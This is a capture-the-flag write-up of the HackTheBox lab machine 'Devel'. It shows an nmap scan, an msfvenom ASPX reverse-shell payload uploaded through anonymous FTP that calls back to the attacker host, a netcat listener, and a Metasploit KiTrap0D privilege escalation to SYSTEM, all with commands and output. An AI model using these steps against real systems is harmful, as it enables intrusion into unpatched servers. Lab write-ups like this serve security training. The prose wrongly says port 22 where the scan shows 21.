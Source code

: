 ```yaml
---
layout: post
title: HackTheBox - Devel
categories: htb
permalink: /htb-devel
---
```


Starting off with a nmap scan to determine open ports, thus attack vector !

```bash
$ nmap -sCV -v -n -p- -T4 --max-retries 0 --max-rate 1000 -oN nmap-devel.txt 10.10.10.5
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-06 11:30 GMT
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating Ping Scan at 11:30
Scanning 10.10.10.5 [2 ports]
Completed Ping Scan at 11:30, 0.37s elapsed (1 total hosts)
Initiating Connect Scan at 11:30
Scanning 10.10.10.5 [65535 ports]
Warning: 10.10.10.5 giving up on port because retransmission cap hit (0).
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
Connect Scan Timing: About 0.30% done
---SNIP---
```

Nmap has found that there are two open ports on the victim machine; port 80 & 22. Navigating to the web server reveals that the default pages of IIS are in place. Alternatively, if we check the Burp response, we can see that the *server* header shows the server is indeed "Microsoft IIS/7.5".

![burp_index_response]({{ site.baseurl }}/assets/htb-images/devel/burp_index_response.png)

Nmap has also found that the FTP service allows anonymous connection. By logging in the service, it's revealed that the root folder of the FTP is the root folder of the IIS server. Trying to upload a file also appeared to be successful, therefore uploading a webshell[^webshell] should allow for command execution.

![devel_ftp_revshell_upload]({{ site.baseurl }}/assets/htb-images/devel/devel_ftp_revshell_upload.png)

Generating an `.aspx` formated reverse shell via msfvenom was a great way to get access to the system. 

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.10 lport=7001 -f aspx -o revshell.aspx
```

After the generation of the reverse shell, uploading it to the system via the FTP service allowed to be executed via navigating to it in the browser.

```bash
$ rlwrap ncat -lnvp 7001 
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7001
Ncat: Listening on 0.0.0.0:7001
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49173.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

The use of `rlwrap` allows the use of the arrow keys while using netcat. It is simply a read-line wrapper and is similar to the `stty raw -echo `[^stty] method.  This tool can be downloaded using the package manager in kali simply by typing the below.

```bash
$ sudo apt update && sudo apt install rlwrap -y
```

Checking `systeminfo` for patches, reveals that the windows 7 x86 machine was never updated meaning it is exposed to a lot of privilege escalation attacks. Copying the output of `systeminfo` and pasting it locally, a tool such as "Windows-Exploit-Suggester"[^wes-tool] could be used to check what exploits can be used to attack the system and escalate the privilages.

```bash
$ ./windows-exploit-suggester.py -i ../systeminfo.txt -d 2020-12-06-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
---SNIP---
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
--> [M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important <--
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

The *ms10_015_kitrap0d* can be used to elevate the privilages by exploiting a kernel vulnerability. Metasploit has available module which could this automatically. Repeat the same steps done to generate a generic non-meterpreter payload to create a meterpreter alternative. Afterwards, use *multi/handler* and set the payload you used for the generation of the reverse shell file.

```bash
$ msfconsole -q
msf5 > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set lhost 10.10.14.10
lhost => 10.10.14.10

msf5 exploit(multi/handler) > set lport 7001
lport => 7001

msf5 exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

msf5 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.14.10:7001 
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.10:7001 -> 10.10.10.5:49166) at 2020-12-22 14:56:22 +0000
```

After obtaining the reverse shell in metasploit, session has to be backgrounded and lastly a search for *kitrap0d* showed the needed module. 

```bash
msf5 exploit(multi/handler) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D
```

Lastly, using the module, setting up the session number of the meterpreter session should allow for the module to successfully complete the exploitation to escalate privileges to *NT AUTHORITY/SYSTEM*. 

```bash
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1

msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.10:7002 
[*] Launching notepad to host the exploit...
[+] Process 2964 launched.
[*] Reflectively injecting the exploit DLL into 2964...
[*] Injecting exploit into 2964 ...
[*] Exploit injected. Injecting payload into 2964...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.10:7002 -> 10.10.10.5:49169) at 2020-12-22 14:58:40 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Finally, the box was completed and flags can be read.

[^webshell]: Simple CMD aspx webshell: <https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/web-backdoors/asp/cmd.aspx>
[^stty]:STTY shell command: <https://renenyffenegger.ch/notes/Linux/shell/commands/stty>
[^wes-tool]: Windows Exploit Suggester: https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

